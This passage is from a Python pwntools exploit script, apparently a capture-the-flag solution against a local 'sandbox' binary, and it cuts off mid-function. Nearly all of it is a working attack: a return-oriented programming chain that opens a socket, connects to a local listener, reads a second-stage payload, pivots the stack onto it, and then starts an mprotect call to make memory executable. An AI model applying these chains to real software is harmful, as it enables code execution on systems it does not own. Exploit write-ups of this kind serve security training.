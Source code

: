 ```python
    e = ELF(BIN)
    r = process(["./sandbox", e.path])

if os.environ.has_key('debug'):
    gdb.attach(r, gdbscript=GDBSCRIPT)

def pivotstack():
    payload = ""
    payload += p64(addrs['poprdi'])
    payload += p64(base)

    # pop struct sockaddr_in
    payload += p64(addrs['poprsi'])
    payload += p64(0x0100007f5c110002)
    payload += p64(addrs['poprsitordi'])

    # open socket
    payload += p64(addrs['poprax'])
    payload += p64(0x29)
    payload += p64(addrs['poprdxpoprsi'])
    payload += p64(0)
    payload += p64(1)
    payload += p64(addrs['poprdi'])
    payload += p64(2)
    payload += p64(addrs['syscallpoprdxpoprsi'])       
    
    # connect
    payload += p64(0x10)
    payload += p64(base)
    payload += p64(addrs['poprdi'])
    payload += p64(0)
    payload += p64(addrs['poprax'])
    payload += p64(0x2a)
    payload += p64(addrs['syscall'])

    # read
    payload += p64(addrs['poprdx'])
    payload += p64(0x600)
    payload += p64(addrs['syscall']) 

    # pivot
    payload += p64(addrs['poprsp'])
    payload += p64(base)

    return payload


def realropchain():
    payload = ""
    
    # Test write
    payload += p64(addrs['poprax'])
    payload += p64(1)
    payload += p64(addrs['poprdx'])
    payload += p64(0x50)
    payload += p64(addrs['syscall'])

    # mprotect 0x1000 bytes starting at 0x6bc3f0
    payload = ""
    payload += p64(addrs['poprdxpoprsi'])
    payload += p64(0x7)
    payload += p64(0x600)
    payload += p64(addrs['poprdi'])
```